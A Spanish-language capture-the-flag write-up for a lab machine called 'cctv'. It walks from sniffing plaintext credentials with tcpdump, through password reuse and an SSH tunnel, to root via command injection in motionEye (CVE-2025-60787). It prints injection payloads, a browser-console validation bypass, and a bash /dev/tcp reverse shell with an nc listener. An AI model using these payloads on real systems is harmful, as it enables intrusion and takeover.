/usr/lib/snapd/snap-confine cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_setgid,cap_setuid,cap_sys_chroot,cap_sys_ptrace,cap_sys_admin=p
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin,cap_sys_nice=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/tcpdump cap_net_raw=eip
/usr/bin/ping cap_net_raw=ep
```

Entre los resultados observamos varias herramientas con capabilities asignadas, algo relativamente común. Sin embargo, hay una que resulta especialmente interesante:

```
tcpdump
```

El binario `tcpdump` dispone de la capability:

```
cap_net_raw
```

Esto significa que podemos **capturar tráfico de red sin necesidad de privilegios de root**, lo cual puede ser útil para interceptar información sensible que circule por la red interna.

### Interfaces de red

Antes de comenzar a capturar tráfico, vamos a revisar las interfaces de red disponibles en el sistema.

```shell
ifconfig
```

Respuesta:

```
mark@cctv:/tmp$ ifconfig
br-1b6b4b93c636: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.25.0.1  netmask 255.255.0.0  broadcast 172.25.255.255
        inet6 fe80::e8d4:89ff:fe00:e8e2  prefixlen 64  scopeid 0x20<link>
        ether ea:d4:89:00:e8:e2  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

br-3e74116c4022: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        inet6 fe80::90eb:e3ff:fe84:11ed  prefixlen 64  scopeid 0x20<link>
        ether 92:eb:e3:84:11:ed  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 22:e6:b4:ae:61:f0  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
..................................<RESTO DE INFO>..................................
```

Observamos varias **interfaces de red internas**, muchas de ellas relacionadas con contenedores o redes virtuales.

Dado que podemos utilizar `tcpdump` sin privilegios elevados, vamos a intentar **capturar tráfico en estas interfaces** para ver si conseguimos identificar información sensible.

### Análisis de logs

Antes de capturar tráfico, revisamos algunos directorios del sistema en busca de información relevante.

En la ruta:

```
/opt/video/backups
```

encontramos un archivo llamado:

```
server.log
```

Si lo inspeccionamos veremos registros interesantes:

```
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-09 10:41:57
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-09 10:42:44
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-09 10:43:31
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-09 10:44:14
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-09 10:45:04
..................................<RESTO DE INFO>..................................
```

Esto nos indica que el usuario `sa_mark` está ejecutando comandos en el sistema a través de algún tipo de servicio o aplicación.

Por lo tanto, es posible que dichas credenciales **se estén transmitiendo por la red interna**, lo que abre la posibilidad de interceptarlas mediante captura de tráfico.

### Captura de tráfico

Probamos a capturar tráfico en la interfaz:

```
br-1b6b4b93c636
```

```shell
tcpdump -i br-1b6b4b93c636 -n -A
```

Tras dejar el sniffer ejecutándose durante unos instantes, observamos lo siguiente:

```
................................<RESTO DE INFO>....................................
11:07:01.664862 IP 172.25.0.11.55652 > 172.25.0.10.5000: Flags [P.], seq 1:55, ack 1, win 502, options [nop,nop,TS val 3628830737 ecr 698416655], length 54
E..j..@.@. ........
.d..............X......
.K..)...USERNAME=sa_mark;PASSWORD=X1l9fx1ZjS7RZb;CMD=disk-info
................................<RESTO DE INFO>....................................
```

Esto confirma que **las credenciales se están transmitiendo en texto plano**, lo que nos permite capturarlas fácilmente mediante `tcpdump`.

Credenciales obtenidas:

```
User: sa_mark
Pass: X1l9fx1ZjS7RZb
```

Ahora intentamos cambiar al usuario `sa_mark`.

```shell
su sa_mark
```

Metemos como contraseña `X1l9fx1ZjS7RZb`...

```
$ whoami
sa_mark
```

Hemos conseguido escalar correctamente al usuario `sa_mark`.

Por comodidad, cambiamos la shell actual a **bash**:

```shell
bash
```

Respuesta:

```
sa_mark@cctv:/tmp$ whoami
sa_mark
```

Finalmente, leemos la flag correspondiente al usuario:

> user.txt

```
227df626e505602d760f34622cc75900
```

## Escalate Privileges

<figure><figcaption></figcaption></figure>

En el directorio `home` del usuario `sa_mark` encontramos un archivo interesante:

```
SecureVision Staff Announcement.pdf
```

Si abrimos el documento, observaremos que contiene un aviso interno donde se menciona que las contraseñas de los usuarios continúan almacenadas en la base de datos de la aplicación web.

<figure><figcaption></figcaption></figure>

Esto nos da una pista clara de que podría existir reutilización de contraseñas entre distintos servicios del sistema. Enumeración de puertos locales

A continuación revisamos los servicios que están escuchando en el sistema.

```shell
ss -tuln
```

Respuesta:

```
Netid             State              Recv-Q             Send-Q                          Local Address:Port                            Peer Address:Port             Process             
udp               UNCONN             0                  0                                  127.0.0.54:53                                   0.0.0.0:*                                    
udp               UNCONN             0                  0                               127.0.0.53%lo:53                                   0.0.0.0:*                                    
udp               UNCONN             0                  0                                     0.0.0.0:68                                   0.0.0.0:*                                    
tcp               LISTEN             0                  4096                                127.0.0.1:1935                                 0.0.0.0:*                                    
tcp               LISTEN             0                  4096                            127.0.0.53%lo:53                                   0.0.0.0:*                                    
tcp               LISTEN             0                  4096                                127.0.0.1:7999                                 0.0.0.0:*                                    
tcp               LISTEN             0                  151                                 127.0.0.1:3306                                 0.0.0.0:*                                    
tcp               LISTEN             0                  4096                                  0.0.0.0:22                                   0.0.0.0:*                                    
tcp               LISTEN             0                  4096                                127.0.0.1:9081                                 0.0.0.0:*                                    
tcp               LISTEN             0                  4096                                127.0.0.1:8888                                 0.0.0.0:*                                    
tcp               LISTEN             0                  128                                 127.0.0.1:8765                                 0.0.0.0:*                                    
tcp               LISTEN             0                  70                                  127.0.0.1:33060                                0.0.0.0:*                                    
tcp               LISTEN             0                  4096                               127.0.0.54:53                                   0.0.0.0:*                                    
tcp               LISTEN             0                  4096                                127.0.0.1:8554                                 0.0.0.0:*                                    
tcp               LISTEN             0                  4096                                     [::]:22                                      [::]:*                                    
tcp               LISTEN             0                  511                                         *:80                                         *:*                                    
```

Observamos que existen varios servicios escuchando en el sistema, pero muchos de ellos están vinculados únicamente a `localhost` (`127.0.0.1`). Esto significa que **no son accesibles directamente desde el exterior**, sino únicamente desde la propia máquina.

Entre los puertos listados destaca especialmente el puerto:

```
127.0.0.1:8765
```

Si intentamos inspeccionar este puerto desde la propia máquina utilizando `curl`, veremos lo siguiente:

```shell
curl http://127.0.0.1:8765
```

La respuesta corresponde a una interfaz web del software:

```
motionEye (0.43.1b4)
```

Este software es una **interfaz web utilizada para gestionar cámaras de vigilancia**, la cual utiliza **Motion 4.7.1** como backend para el procesamiento de vídeo.

Además, si analizamos el código JavaScript de la aplicación, observamos que aparece definido el usuario administrador:

```js
var adminUsername = 'admin';
```

Esto nos indica que el usuario administrador del sistema es `admin`, aunque todavía desconocemos su contraseña.

### Port Forwarding

Dado que el servicio únicamente escucha en `localhost`, vamos a realizar un **túnel SSH (port forwarding)** para poder acceder a este servicio desde nuestra máquina atacante.

```shell
ssh sa_mark@<IP> -L 8765:127.0.0.1:8765
```

Metemos como contraseña `X1l9fx1ZjS7RZb`...

```
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon  9 Mar 11:36:56 UTC 2026

  System load:           0.19
  Usage of /:            74.9% of 8.70GB
  Memory usage:          36%
  Swap usage:            0%
  Processes:             270
  Users logged in:       0
  IPv4 address for eth0: 10.129.5.205
  IPv6 address for eth0: dead:beef::250:56ff:fe94:a493

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

14 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

$
```

Una vez establecida la conexión, el puerto `8765` del sistema víctima quedará **redirigido a nuestro localhost**, permitiéndonos acceder al servicio web desde nuestra máquina.

Para comprobar que el túnel se ha realizado correctamente, accedemos desde nuestro navegador a:

```
URL = http://127.0.0.1:8765/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Observamos que la página se carga correctamente, lo que confirma que el **túnel SSH se ha establecido de forma exitosa**.

### Acceso al panel

Ahora intentamos autenticarnos utilizando el usuario `admin`.

Teniendo en cuenta la pista anterior sobre **reutilización de contraseñas**, probamos con la contraseña del usuario `sa_mark`.

```
User: admim
Pass: X1l9fx1ZjS7RZb
```

Respuesta:

<figure><figcaption></figcaption></figure>

Observamos que el acceso es válido, lo que confirma que **la contraseña ha sido reutilizada entre distintos servicios del sistema**.

Una vez dentro del panel, podemos inspeccionar la configuración del sistema y obtener información sobre la **versión exacta del software** que se está ejecutando.

<figure><figcaption></figcaption></figure>

### CVE-2025-60787

<figure><figcaption></figcaption></figure>

Observamos que el sistema está ejecutando la versión:

```
motionEye 0.43.1b4
```

Si investigamos vulnerabilidades asociadas a esta versión, encontramos un **CVE interesante**:

```
CVE-2025-60787
```

Más información:

URL = [Info CVE-2025-60787 GitHub](https://github.com/advisories/GHSA-j945-qm58-4gjx)

Según la descripción, esta vulnerabilidad permite **ejecución remota de comandos (RCE)** a través de un parámetro de configuración de Motion que **no es correctamente sanitizado**:

```
RCE via unsanitized motion config parameter
```

En la misma página se muestra un ejemplo de cómo explotar la vulnerabilidad.

### Creación de una cámara

Para comenzar con la explotación, primero debemos **añadir una nueva cámara** dentro de la interfaz.

Desde el menú de las tres barras accedemos a:

```
CAM 01
```

Y en la parte inferior seleccionamos la opción:

```
add camera...
```

<figure><figcaption></figcaption></figure>

Dentro del panel de configuración seleccionamos:

```
Network Camera
```

Posteriormente rellenamos los campos necesarios. En mi caso utilicé **la misma URL que utiliza la cámara existente (`CAM 01`)**.

<figure><figcaption></figcaption></figure>

### Inyección de comando

Una vez creada la cámara, accedemos a su configuración y bajamos hasta la sección:

```
Still Images
```

En el campo:

```
Image File Name
```

introducimos el siguiente payload de prueba:

```
$(touch /tmp/test).%Y-%m-%d-%H-%M-%S
```

<figure><figcaption></figcaption></figure>

Sin embargo, al intentar aplicar los cambios observamos que aparece un **error de validación**.

Esto ocurre porque el formulario ejecuta una función JavaScript que valida los parámetros antes de enviarlos.

La función encargada de esta validación es la siguiente:

```js
function configUiValid() {
  $('div.settings').find('.validator').each(function () { this.validate(); });
  var valid = true;
  $('div.settings input, select').each(function () {
    if (this.invalid) { valid = false; return false; }
  });
  return valid;
}
```

### Bypass de la validación

Para evitar esta validación podemos modificar temporalmente la función desde la consola del navegador.

Abrimos la consola con `F12` y ejecutamos:

```js
configUiValid = function() { return true; };
```

Respuesta:

<figure><figcaption></figcaption></figure>

Esto fuerza a que la función siempre devuelva `true`, permitiéndonos **evitar la validación del formulario**.

### Activación del payload

Ahora configuramos el intervalo de captura en la sección **Still Images** a:

```
10 segundos
```

<figure><figcaption></figcaption></figure>

Aplicamos los cambios y comprobamos en el sistema víctima si el payload se ha ejecutado correctamente.

```shell
ls -la /tmp
```

Respuesta:

```
..................................<RESTO DE INFO>..................................
-rw-r--r--  1 root     root           0 Mar  9 12:15 test
..................................<RESTO DE INFO>..................................
```

Esto confirma que el comando se ha ejecutado correctamente **como el usuario `root`**.

### Reverse Shell

Ahora que sabemos que podemos ejecutar comandos como `root`, vamos a crear una **reverse shell**.

> rev.sh

```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1
```

Le asignamos permisos de ejecución:

```shell
chmod +x /tmp/rev.sh
```

Posteriormente modificamos el parámetro **Image File Name** con el siguiente payload:

```
$(bash /tmp/rev.sh).%Y-%m-%d-%H-%M-%S
```

### Recepción de la shell

Nos ponemos a la escucha en nuestra máquina atacante:

```shell
nc -lvnp <PORT>
```

Cuando aplicamos los cambios en la interfaz web, recibimos la conexión:

```
listening on [any] 7755 ...
connect to [10.10.14.238] from (UNKNOWN) [10.129.5.205] 45578
bash: cannot set terminal process group (50045): Inappropriate ioctl for device
bash: no job control in this shell
root@cctv:/etc/motioneye# whoami
whoami
root
```

Esto confirma que hemos conseguido **ejecución remota de comandos como `root`** en el sistema. Finalmente leemos la flag del usuario `root`.

> root.txt

```
82756242cad54f0341fc681331f59926
```
